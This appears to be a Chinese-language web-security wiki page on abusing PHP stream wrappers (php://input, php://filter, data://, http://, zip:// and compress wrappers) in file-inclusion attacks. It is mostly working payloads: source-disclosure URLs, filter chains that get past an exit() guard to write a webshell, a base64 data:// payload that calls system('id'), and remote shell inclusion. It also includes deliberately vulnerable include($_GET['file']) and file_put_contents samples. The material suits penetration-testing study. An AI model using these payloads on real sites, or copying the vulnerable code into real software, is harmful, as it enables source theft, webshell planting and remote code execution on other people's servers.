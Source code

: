 # 伪协议

## 支持的协议和封装协议

官方文档中可以看到PHP 带有很多内置 URL 风格的封装协议，例如 `php://`，`file://`等等，而其中也存在一些攻击者可以利用的地方  

<a-alert type="success" message="" description="官方文档：https://www.php.net/manual/zh/wrappers.file.php" showIcon>
</a-alert>
<br/>

![image-20220518110413109](/assets/PeiQi-Wiki/img/image-20220518110413109.png)

## php://

PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符， 内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。

![image-20220525090905760](/assets/PeiQi-Wiki/img/image-20220525090905760.png)

![image-20220525091008645](/assets/PeiQi-Wiki/img/image-20220525091008645.png)

### php://input

当 allow_url_include 配置在 php.ini 文件中为 `On`时，可以通过使用 `php://input` 在POST数据中传入执行的PHP代码来达到命令执行

![image-20220525091416553](/assets/PeiQi-Wiki/img/image-20220525091416553.png)

这里使用文件包含代码来做例子

```php
<?php
include($_GET["file"]);
?>
```

![image-20220525091610668](/assets/PeiQi-Wiki/img/image-20220525091610668.png)

### php://filter

当存在文件包含漏洞时，可以使用 `php://filter` 读取 PHP源码

```php
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

![image-20220525093334626](/assets/PeiQi-Wiki/img/image-20220525093334626.png)

这里使用的过滤器为 `convert.base64-encode`，读取到的响应 `base64` 解码后就是源码文件

![image-20220525093521312](/assets/PeiQi-Wiki/img/image-20220525093521312.png)

如果存在WAF或者代码过滤 base64 等字符的情况下，除去这个常用的过滤器，还存在其他的方法来获取数据

```
/index.php?file=php://filter/read=string.rot13/resource=index.php 
```

![image-20220525101142364](/assets/PeiQi-Wiki/img/image-20220525101142364.png)

其中还有一个在PHP文档中提到较少的过滤器 `iconv转换过滤器(convert.iconv.*)`，通过命令可以看到可以使用的方法

![image-20220525101342348](/assets/PeiQi-Wiki/img/image-20220525101342348.png)

```
/index.php?file=php://filter/read=convert.iconv.ISO_8859-7:2003/resource=index.php
```

![image-20220525101430283](/assets/PeiQi-Wiki/img/image-20220525101430283.png)

当部分代码中含有 `死亡 exit`时，使用 `php://filter` 也可以继续绕过，达到写入Webshell的目的，例如下面的PHP代码

```php
<?php
$content = '<?php exit; ?>';
$content .= $_POST['content'];
file_put_contents($_POST['filename'], $content);
?>
```

当我们想写入PHP代码时

![image-20220525110938859](/assets/PeiQi-Wiki/img/image-20220525110938859.png)

![image-20220525110947255](/assets/PeiQi-Wiki/img/image-20220525110947255.png)

在exit的影响下，写入的PHP代码无法执行，而这时通过 `php://filter` 利用特殊的转换器就可以绕过 exit 写入想要执行的PHP代码

![image-20220525112502432](/assets/PeiQi-Wiki/img/image-20220525112502432.png)

如上图，当存在 Base64索引中 不包含的字符中，base64会跳过不识别的字符拼接可识别字符再进行解码，也就是说 `<?php exit; ?>` 传入 base64的实际只有 `phpexit`, 而 base64算法4byte 为一组进行运算，我们通过传入任意一个字母拼接就可以使其解码，再通过 base64的过滤器就可以绕过 `exit`写入 Webshell

```
content=QPD9waHAgcGhwaW5mbygpOz8%2b&filename=php://filter/write=convert.base64-decode/resource=phpinfo.php
```

![image-20220525114107874](/assets/PeiQi-Wiki/img/image-20220525114107874.png)

![image-20220525114131702](/assets/PeiQi-Wiki/img/image-20220525114131702.png)

也可以利用 `string.strip_tags` 去除整个 `<?php exit; ?>`，来写入

```
content=PD9waHAgcGhwaW5mbygpOz8%2b&filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=phpinfo.php
```

但这个过滤器在 `PHP 7.3.0` 版本废弃了，后续版本使用可能会导致写入失败

![image-20220525114959794](/assets/PeiQi-Wiki/img/image-20220525114959794.png)

除去这些常用的，还有很多方法可以使用

```
# rot13过滤器
content=<?cuc cucvasb();?>&filename=php://filter/write=string.rot13/resource=phpinfo.php
```

![image-20220525115422272](/assets/PeiQi-Wiki/img/image-20220525115422272.png)

```
#UCS-2 转换
content=?<hp phpipfn(o;)>?&filename=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=phpinfo.php
```

![image-20220525115617995](/assets/PeiQi-Wiki/img/image-20220525115617995.png)

## data://

文件包含源码

```php
<?php
include($_GET["file"]);
?>
```

利用 `data://` 执行 php代码

![image-20220525121021882](/assets/PeiQi-Wiki/img/image-20220525121021882.png)

也可以通过编码的方式绕过一些过滤

```php
/index.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOz8%2
```

![image-20220525121519399](/assets/PeiQi-Wiki/img/image-20220525121519399.png)

## http://

当配置选项 `allow_url_fopen`与`allow_url_include` 均为On时，通过 `http:// 或 https://` 协议可以远程包含文件或包含本地文件

```
# shell.php
<?php system("id");?>
```

![image-20220525122614858](/assets/PeiQi-Wiki/img/image-20220525122614858.png)

## file://

这个协议常常用于读取读取文件，当知道文件路径时，可以通过该协议读取文件获取敏感数据

![image-20220525171226018](/assets/PeiQi-Wiki/img/image-20220525171226018.png)

## zip://  &  bzip2://  &  zlib://

`zip:// & bzip2:// & zlib://` 均属于压缩流，可以访问压缩文件中的子文件。当存在压缩包上传的情况时，我们可以通过此协议访问 压缩包中的内部文件

![image-20220525172201302](/assets/PeiQi-Wiki/img/image-20220525172201302.png)

上图将 `phpinfo.txt` 打包为 `phpinfo.zip`

```
/index.php?file=zip:///Users/peiqi/Sites/peiqi/phpinfo.zip%23phpinfo.txt 
```

![image-20220525172250386](/assets/PeiQi-Wiki/img/image-20220525172250386.png)

压缩包后缀为 `gz`时

```
/index.php?file=compress.zlib:///Users/peiqi/Sites/peiqi/phpinfo.gz 
```

![image-20220525172701926](/assets/PeiQi-Wiki/img/image-20220525172701926.png)

压缩包后缀为`bz2`时

```
/index.php?file=compress.bzip2:///Users/peiqi/Sites/peiqi/phpinfo.bz2
```

 ![image-20220525172846066](/assets/PeiQi-Wiki/img/image-20220525172846066.png)

